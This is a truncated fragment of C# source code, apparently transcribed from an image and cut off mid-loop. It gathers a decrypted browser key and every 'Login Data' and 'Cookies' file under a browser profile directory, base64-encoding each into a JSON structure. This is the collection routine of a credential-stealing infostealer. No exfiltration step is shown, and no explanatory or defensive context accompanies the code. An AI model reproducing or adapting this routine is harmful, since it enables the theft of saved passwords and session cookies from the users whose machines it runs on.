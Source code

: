 

                JObject browserJson = new JObject

                {

                    ["key"] = decryptedKeyBase64

                };





                var loginDataFiles = Directory.GetFiles(userDataPath, "Login Data", SearchOption.AllDirectories);

                var cookiesFiles = Directory.GetFiles(userDataPath, "Cookies", SearchOption.AllDirectories);





                JArray loginDataArray = new JArray();

                foreach (var loginDataPath in loginDataFiles)

                {

                    try

                    {

                        if (File.Exists(loginDataPath))

                        {

                            byte[] loginDataBytes = File.ReadAllBytes(loginDataPath);

                            string loginDataBase64 = Convert.ToBase64String(loginDataBytes);

                            loginDataArray.Add(loginDataBase64);

                        }

                    }

                    catch (Exception ex)

                    {

                        Console.WriteLine($"Failed to access Login Data file: {loginDataPath}. Error: {ex.Message}");

                        continue;

                    }

                }

                browserJson["login_data"] = loginDataArray;



                JArray cookiesArray = new JArray();

                foreach (var cookiesPath in cookiesFiles)

                {

                    try
